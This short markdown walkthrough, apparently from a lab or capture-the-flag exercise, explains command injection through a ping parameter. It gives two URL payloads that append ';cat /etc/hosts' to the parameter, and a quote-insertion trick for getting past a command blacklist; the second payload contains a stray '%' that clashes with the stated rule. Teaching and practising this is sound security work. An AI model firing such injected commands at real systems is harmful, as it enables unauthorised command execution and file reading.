

# Command Injection Walkthrough

# First Encounter
We can use the get parameter `param` to ping another host, providing our ip addresse. 
To execute an Command Injection, we can simply contacenate another string which will be interpreted as a linux command:

```bash
/secondEncounter?param=8.8.8.8;cat+/etc/hosts
```



# Second Encounter
To circumvent blacklisted commands, we can simply add `'` between our command to evade the restriction. Please consider, that we need to provide an even amount of this characters: 
- `c'a't` will work
- `c'at` will not work

```bash
/secondEncounter?param=8.8.8.8; c'a%'t+/etc/hosts
```

